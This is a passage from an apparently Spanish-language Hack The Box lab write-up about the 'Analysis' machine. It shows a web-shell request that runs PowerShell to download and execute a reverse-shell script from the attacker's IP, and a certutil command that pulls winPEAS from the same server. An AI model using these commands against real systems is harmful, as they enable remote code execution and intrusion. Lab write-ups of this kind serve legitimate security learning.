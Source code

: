 Esto le indicara a script que invoque la funcion y con esto ya podremos indicar en nuestra WebShell que queremos que nso haga un downloadString sobre el archivo, dentro de la carpeta de las shells, montaremos un servidor web con python y en nuestro archivo _cmd.php_ hubicado en _uploads_ pondremos todo nuestro onliner

`http://internal.analysis.htb/dashboard/uploads/cmd.php?cmd=powershell%20IEX(New-Object%20Net.WebClient).DownloadString(%27http://10.10.14.11/Invoke-PowerShellTcp.ps1%27)`

Accedemos com el usuario _analysis\svc_web_ y no vemos gran cosa a siq ue vamos a subir el winpeas a ver si nos encontramos algo para poder acceder como otro usuario o podamos salir de este usuario que no puede hacer absolutamente nada 

#### WinPeas  

Descargamos el [WinPeasx64](https://github.com/peass-ng/PEASS-ng/releases/tag/20250904-27f4363e) desde el repesitorio, ahora la subiremos con [Certutil](# 'Utilidad de línea de comandos para gestionar e inspeccionar certificados y almacenes PKI (Windows/NSS), y también usada para operaciones como codificar/decodificar y volcar certificados.'), montamos de nuevo nuestro servidor web con python.

Con nuestro servidor web montado donde está el archivo usaremos certutil de la siguiente manera.

```
certutil  -urlcache -split -f http://10.10.14.11/winPEASx64.exe
```
Lo ejecute pero no veia la salida del archivo completa así que me quede algo perdido, no veia nada referente, pero luego me di cuenta que lo habia descargado directamente en la carpeta uploads, así que está subido en la pagina así que voy a ir a ver lo.

![output](../../../../../assets/analysis/output.png)

No se veia nada... así que tome la desicion de descargarlo :(.
